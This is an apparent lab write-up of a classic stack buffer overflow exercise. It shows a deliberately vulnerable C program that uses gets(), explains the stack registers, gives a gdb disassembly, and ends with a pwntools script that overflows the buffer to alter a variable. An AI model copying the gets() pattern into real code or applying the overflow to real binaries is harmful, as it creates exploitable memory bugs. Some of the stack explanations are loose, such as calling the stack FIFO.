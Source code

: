 # Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- We have 2 variables *modified* and *buffer* which are created in the stack.
- *modified* is an integer that the program checks to see if it's been altered unexpectedly. The `volatile` keyword is used to tell the compiler not to optimize this variable, as its value could be changed unexpectedly or arbitrarily.
- The *gets()* function is used -- input is loaded into buffer using *gets()*
- *gets()* is dangerous as it can be easily abused for buffer over flow.
- This is because *gets()* doesn't have a check for the number of inputs given in the stack, and it keep receiving input until the stack crashes -- which of course leads to stack buffer overflow.
- Knowing this we can overwrite the memory region where the *modified* variable is stored.

# Investigating further

**Running `man gets` 
![[Pasted image 20240709223941.png]]
![[Pasted image 20240709224151.png]]

# The stack

#### EIP (Instruction Pointer)

The EIP register holds the memory address of the next instruction to be executed. It is not stored on the stack itself, but rather it is an architectural register in the CPU. **The EIP is used to keep track of the currently executing code.**

#### ESP (Stack Pointer)

The ESP register points to the top of the stack, which is the most recently pushed value. It is not directly stored on the stack, but it holds the memory address of the top of the stack. **ESP is used to access and manipulate data on the stack.**

#### EBP (Base Pointer)

The EBP register is used as a reference point for accessing local variables and function arguments on the stack. It is typically set to the value of ESP at the beginning of a function, providing a stable base address for referencing stack data. **EBP is pushed onto the stack when a function is called, and it is popped off when the function returns.**


- First the *modified* variable gets created, i.e. it gets pushed onto the stack(FIFO).
- Then the *buffer* which is an array of 64 characters gets created.
- *modified* variable gets pushed down to the stack.


# Disassembly 
We are going to disassemble our binary using *gdb/gef*

![[Pasted image 20240709233340.png]]

# Disassembling the main function
```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x0000000000001149 <+0>:	push   rbp
   0x000000000000114a <+1>:	mov    rbp,rsp
   0x000000000000114d <+4>:	sub    rsp,0x60
   0x0000000000001151 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000001154 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x0000000000001158 <+15>:	mov    DWORD PTR [rbp-0x4],0x0
   0x000000000000115f <+22>:	lea    rax,[rbp-0x50]
   0x0000000000001163 <+26>:	mov    rdi,rax
   0x0000000000001166 <+29>:	mov    eax,0x0
   0x000000000000116b <+34>:	call   0x1040 <gets@plt>
   0x0000000000001170 <+39>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000001173 <+42>:	test   eax,eax
   0x0000000000001175 <+44>:	je     0x1188 <main+63>
   0x0000000000001177 <+46>:	lea    rax,[rip+0xe8a]        # 0x2008
   0x000000000000117e <+53>:	mov    rdi,rax
   0x0000000000001181 <+56>:	call   0x1030 <puts@plt>
   0x0000000000001186 <+61>:	jmp    0x1197 <main+78>
   0x0000000000001188 <+63>:	lea    rax,[rip+0xea2]        # 0x2031
   0x000000000000118f <+70>:	mov    rdi,rax
   0x0000000000001192 <+73>:	call   0x1030 <puts@plt>
   0x0000000000001197 <+78>:	mov    eax,0x0
   0x000000000000119c <+83>:	leave
   0x000000000000119d <+84>:	ret
End of assembler dump.
gef➤  

```

The `modified` variable and the buffer are separate variables in the program. However, due to the way memory is organized in the stack, these variables are located next to each other. When the `gets` function is called to read input into the buffer, and if the input is longer than the size of the buffer, it will overflow into the memory space of the `modified` variable, effectively changing its value.

- We are going to set **2** breakpoints before and after the **gets()** function to see what registers have changed.
```
gef➤  break *0x000000000000116b
Breakpoint 1 at 0x116b
gef➤  break *0x0000000000001170
Breakpoint 2 at 0x1170
```
- The first breakpoint is set at the **gets()** function.
- The second breakpoints is set at the instruction that loads the value of the **modified** variable.
- Doing the above, we will get an idea on where the data on the stack is stored.


# Using pwntools to exploit the binary

```
from pwn import *

# Establish a process to the binary
p = process('/opt/exploitdev/stacked')

# Create the payload
# The 'A'*80 will overflow the buffer and modify the 'modified' variable
payload = ('A'*80).encode()

# Send the payload
p.sendline(payload)

# Receive the output
output = p.recvline()

# Print the output
print(output)

# Close the process
p.close()

```

![[Pasted image 20240710130427.png]]

Thank you.

